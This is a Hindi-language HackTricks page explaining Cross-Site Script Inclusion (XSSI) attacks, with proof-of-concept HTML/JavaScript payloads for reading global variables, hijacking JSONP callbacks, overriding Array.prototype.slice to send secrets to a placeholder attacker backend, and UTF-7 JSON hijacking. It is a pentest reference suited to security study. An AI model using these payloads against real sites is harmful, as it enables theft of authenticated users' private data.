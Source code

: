 # XSSI (Cross-Site Script Inclusion)

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग प्राप्त करें**](https://peass.creator-spring.com)
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें।

</details>

#### यह जानकारी [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414) से ली गई है

## मूल जानकारी

XSSI एक प्रकार की कमजोरी को दर्शाता है जो इस तथ्य का शोषण करती है कि, जब एक **संसाधन को `script` टैग का उपयोग करके शामिल किया जाता है, तो SOP लागू नहीं होता**, क्योंकि स्क्रिप्ट्स को क्रॉस-डोमेन शामिल करने में सक्षम होना चाहिए। इस प्रकार, एक हमलावर **सब कुछ पढ़ सकता है** जो कि **`script` टैग** का उपयोग करके शामिल किया गया था।

यह विशेष रूप से तब दिलचस्प होता है जब यह डायनामिक जावास्क्रिप्ट या JSONP की बात आती है जब तथाकथित एम्बिएंट-अथॉरिटी जानकारी जैसे कि कुकीज़ का उपयोग प्रमाणीकरण के लिए किया जाता है। कुकीज़ को एक अलग होस्ट से संसाधन का अनुरोध करते समय शामिल किया जाता है।

### प्रकार

1. स्थिर जावास्क्रिप्ट (नियमित XSSI)
2. स्थिर जावास्क्रिप्ट, जो केवल प्रमाणीकृत होने पर ही सुलभ है
3. डायनामिक जावास्क्रिप्ट
4. गैर-जावास्क्रिप्ट

## नियमित XSSI

निजी जानकारी एक वैश्विक सुलभ JS फ़ाइल के अंदर स्थित होती है, आप इसे फ़ाइलों को पढ़कर, कीवर्ड्स की खोज करके या regexps का उपयोग करके पता लगा सकते हैं।\
इसका शोषण करने के लिए, बस निजी जानकारी वाली स्क्रिप्ट को दुर्भावनापूर्ण सामग्री के अंदर शामिल करें:
```markup
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```
## Dynamic-JavaScript-based-XSSI और Authenticated-JavaScript-XSSI

**जब उपयोगकर्ता स्क्रिप्ट का अनुरोध करता है, तो गोपनीय जानकारी स्क्रिप्ट में जोड़ी जाती है**। यह आसानी से पता लगाया जा सकता है **कुकीज़ के साथ और बिना कुकीज़ के अनुरोध भेजकर**, अगर **अलग जानकारी** प्राप्त होती है, तो गोपनीय जानकारी हो सकती है। इसे स्वचालित रूप से करने के लिए आप burp extension का उपयोग कर सकते हैं: [https://github.com/luh2/DetectDynamicJS](https://github.com/luh2/DetectDynamicJS).

अगर जानकारी एक ग्लोबल वेरिएबल के अंदर होती है, तो आप इसे पिछले मामले के लिए उपयोग किए गए कोड का उपयोग करके शोषण कर सकते हैं।\
अगर गोपनीय डेटा JSONP प्रतिक्रिया के अंदर भेजा जाता है, तो आप निष्पादित फंक्शन को ओवरराइड करके जानकारी प्राप्त कर सकते हैं:
```markup
<script>
//The confidential info will be inside the callback to angular.callbacks._7: angular.callbacks._7({"status":STATUS,"body":{"demographics":{"email":......}}})
var angular = function () { return 1; };
angular.callbacks = function () { return 1; };
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```
या आप JSONP प्रतिक्रिया द्वारा निष्पादित होने के लिए एक तैयार किया गया फ़ंक्शन भी सेट कर सकते हैं:
```markup
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
यदि कोई वेरिएबल ग्लोबल नेमस्पेस के अंदर नहीं होता है, तो कभी-कभी इसे _प्रोटोटाइप टैम्परिंग_ का उपयोग करके भी शोषित किया जा सकता है। प्रोटोटाइप टैम्परिंग जावास्क्रिप्ट के डिजाइन का दुरुपयोग करता है, अर्थात जब कोड की व्याख्या करते हैं, तो जावास्क्रिप्ट प्रोटोटाइप चेन को ट्रैवर्स करता है ताकि कॉल की गई प्रॉपर्टी को ढूंढ सके। निम्नलिखित उदाहरण [The Unexpected Dangers of Dynamic JavaScript](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-lekies.pdf) पेपर से निकाला गया है और यह दिखाता है कि कैसे `Array` टाइप के एक प्रासंगिक फंक्शन को ओवरराइड करके और `this` तक पहुंच के साथ, एक नॉन-ग्लोबल वेरिएबल को भी लीक किया जा सकता है।
```javascript
(function(){
var arr = ["secret1", "secret2", "secret3"];
// intents to slice out first entry
var x = arr.slice(1);
...
})();
```
मूल कोड में `Array` प्रकार का `slice` हमारे द्वारा रुचि रखे गए डेटा तक पहुँचता है। एक हमलावर, पिछले खंड में वर्णित अनुसार, `slice` को ओवरराइड कर सकता है और रहस्यों को चुरा सकता है।
```javascript
Array.prototype.slice = function(){
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this);
};
```
सुरक्षा शोधकर्ता [सेबेस्टियन लेकीज़](https://twitter.com/slekies) ने हाल ही में अपनी [वेक्टर्स](http://sebastian-lekies.de/leak/) की सूची को अपडेट किया है।

## नॉन-स्क्रिप्ट-XSSI

ताकेशी तेराडा ने अपने पेपर [Identifier based XSSI attacks](https://www.mbsd.jp/Whitepaper/xssi.pdf) में XSSI के एक अन्य प्रकार का वर्णन किया है। उन्होंने क्रॉस-ओरिजिन नॉन-स्क्रिप्ट फाइलों को लीक करने में सफलता प्राप्त की, जिसमें CSV फाइलों को `script` टैग में स्रोत के रूप में शामिल करना और डेटा का उपयोग वेरिएबल और फंक्शन नामों के रूप में करना शामिल था।

पहला सार्वजनिक रूप से दस्तावेजीकृत XSSI हमला 2006 में हुआ था। जेरेमिया ग्रॉसमैन की ब्लॉग प्रविष्टि [Advanced Web Attack Techniques using GMail](http://jeremiahgrossman.blogspot.ch/2006/01/advanced-web-attack-techniques-using.html) में XSSI का चित्रण किया गया है, जिसमें `Array` कंस्ट्रक्टर को ओवरराइड करके एक गूगल अकाउंट की पूरी एड्रेस बुक को पढ़ने में सक्षम था।

2007 में जो वॉकर ने [JSON is not as safe as people think it is](http://incompleteness.me/blog/2007/03/05/json-is-not-as-safe-as-people-think-it-is/) प्रकाशित किया। उन्होंने एक ही विचार का उपयोग करके `Array` के अंदर मौजूद JSON को चुराने के लिए किया।

अन्य संबंधित हमले UTF-7 एन्कोडेड कंटेंट को JSON में इंजेक्ट करके JSON फॉर्मेट से बचने के लिए किए गए थे। इसका वर्णन [Hackvertor](https://hackvertor.co.uk/public) के लेखक गैरेथ हेयेस ने 2011 में जारी ब्लॉग प्रविष्टि [JSON Hijacking](http://www.thespanner.co.uk/2011/05/30/json-hijacking/) में किया है। एक त्वरित परीक्षण में, यह अभी भी माइक्रोसॉफ्ट इंटरनेट एक्सप्लोरर और एज में संभव था, लेकिन मोज़िला फ़ायरफ़ॉक्स या गूगल क्रोम में नहीं।

UTF-7 के साथ JSON:
```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```
JSON को हमलावर के पृष्ठ में शामिल करना
```markup
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```
<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* **अपनी हैकिंग ट्रिक्स साझा करें PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में.

</details>
